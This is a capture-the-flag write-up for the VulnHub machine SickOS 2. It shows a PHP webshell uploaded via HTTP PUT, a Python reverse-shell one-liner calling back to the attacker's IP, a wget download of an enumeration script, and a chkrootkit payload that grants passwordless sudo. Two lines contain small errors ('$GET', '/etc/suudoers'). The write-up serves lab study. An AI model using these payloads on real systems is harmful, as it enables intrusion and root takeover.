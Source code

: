 ```yaml
---
title: "SickOS 2"
date: 2024-07-26
draft: false
summary: "Writeup for SickOS 2 CTF challenge on VulnHub."
tags: ["linux", "file upload", "chkrootkit"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/sickos2/cover.webp"
  caption: "SickOS 2 VulnHub Challenge"
  alt: "SickOS 2 cover"
platform: "VulnHub"
---
```


This is the second challenge in the SickOS series. The scope of SickOS2 is to gain the highest privilege on the system.
<!--more-->
To download **sickos 2**, click on the link given below:
- https://www.vulnhub.com/entry/sickos-12,144/

## Reconnaissance

I started by scanning the network to identify the target IP.

```bash
nmap -sn 192.168.1.0/24                                      
```

I then performed an **nmap** aggressive scan to identify open ports, services and additional information about the services running on the target.

```shell
nmap -A -p- TARGET --min-rate 10000 -oN sick2.nmap
```

| **Port** | **Service**            |
| -------- | ---------------------- |
| 22       | ssh                    |
| 80       | http                   |

![](https://cdn.ziomsec.com/sickos2/1.webp)

## Foothold

Since the target had port 80 open, I accessed it on the web and also viewed its source for anything interesting.

![](https://cdn.ziomsec.com/sickos2/2.webp)

```shell
curl http://TARGET
```

![](https://cdn.ziomsec.com/sickos2/3.webp)

However, there was nothing interesting. So, I used **dirb** to fuzz the application for hidden files and directories.

```shell
dirb http://TARGET
```

![](https://cdn.ziomsec.com/sickos2/4.webp)

Fuzzing the application revealed a directory called *test* which had a directory listing.

![](https://cdn.ziomsec.com/sickos2/5.webp)

I then performed a **nikto** scan on this path to see if I could find anything juicy.

```shell
nikto -h http://TARGET/test/
```

![](https://cdn.ziomsec.com/sickos2/6.webp)

The **nikto** scan revealed that the server allowed **HTTP PUT** method.  This meant that I could upload a PHP reverse shell file on the target and if the file was executed, I could get a reverse shell.

I validated this using the **OPTION** method:

```shell
curl -v --request OPTIONS http://TARGET/test
```

![](https://cdn.ziomsec.com/sickos2/7.webp)

After validating if the method was allowed, I uploaded a php webshell to get remote code execution.
- I referred to this article:- https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html

```shell
curl -X PUT -d  '<?php system($GET['cmd']); ?>' http://TARGET/test/revshell.php
```

```shell
curl http://TARGET/test/revshell.php?cmd=whoami
```

![](https://cdn.ziomsec.com/sickos2/8.webp)

Hence, with this - I was able to execute system command. I then used this to obtain a reverse shell.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.13",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![](https://cdn.ziomsec.com/sickos2/9.webp)

```shell
rlwrap nc -lnvp 443
```

![](https://cdn.ziomsec.com/sickos2/10.webp)

I got access as a the http service account - *www-data*. For a better and more interactive shell, I spawned a pty shell using **python**.

```shell
export TERM=xterm
python -c 'import pty;pty.spawn("/bin/bash")'
```

![](https://cdn.ziomsec.com/sickos2/11.webp)

## Privilege Escalation

I downloaded the **linux smart enumeration** script to assist with privilege escalation.
- https://github.com/diego-treitos/linux-smart-enumeration

![](https://cdn.ziomsec.com/sickos2/12.webp)

```shell
wget 'http://192.168.1.13:8080/lse.sh'
chmod +x lse.sh
```

![](https://cdn.ziomsec.com/sickos2/13.webp)

This script revealed that I had permissions to write in the paths present in cron jobs.

![](https://cdn.ziomsec.com/sickos2/14.webp)

When I listed the `cron.daily` folder contents, I found **chkrootkit**. This software is used to scan the system for rootkits. Since it requires scanning the applications, it is run as root. So, if there was an exploit available for this, I could run any command as root and escalate my privilege.

![](https://cdn.ziomsec.com/sickos2/15.webp)

I used **searchsploit** and found an exploit for **chkrootkit**.

```bash
searchsploit 'chkrootkit'
```

![](https://cdn.ziomsec.com/sickos2/16.webp)

I checked the version of the **chkrootkit** script to determine if the available exploit would work.

```shell
head chkrootkit
```

![](https://cdn.ziomsec.com/sickos2/17.webp)

I then downloaded the text file from **Searchsploit** and reviewed it to understand how I could escalate my privileges.

```shell
searchsploit -m linux/local/33899.txt
```

![](https://cdn.ziomsec.com/sickos2/18.webp)
![](https://cdn.ziomsec.com/sickos2/19.webp)

So, all I had to do is add some malicious code inside a file called *update* in the */tmp* directory and run it using **chkrootkit**.

```bash
echo 'chmod 777 /etc/suudoers && echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 400 /etc/sudoers' > /tmp/update
cat /tmp/update
```

![](https://cdn.ziomsec.com/sickos2/20.webp)

> I used the update binary to modify the *sudoers* file so that my current user could run sudo commands without a password.

![](https://cdn.ziomsec.com/sickos2/21.webp)

I then waited for a few minutes and switched the user to root.

![](https://cdn.ziomsec.com/sickos2/22.webp)

Finally, I captured the flag from the root directory.

![](https://cdn.ziomsec.com/sickos2/23.webp)

## Closure

Here's a brief summary of how I pwned **SickOS 2**:
- I uploaded a PHP file for remote command injection in the _/test/_ folder.
- I used this remote code execution (RCE) to obtain a reverse shell.
- I then inspected the `cron.daily` folder and exploited the **chkrootkit** vulnerability to gain root access.
- Finally, I captured the flag from the _/root_ directory.

That's it from my side. Until next time:)

---
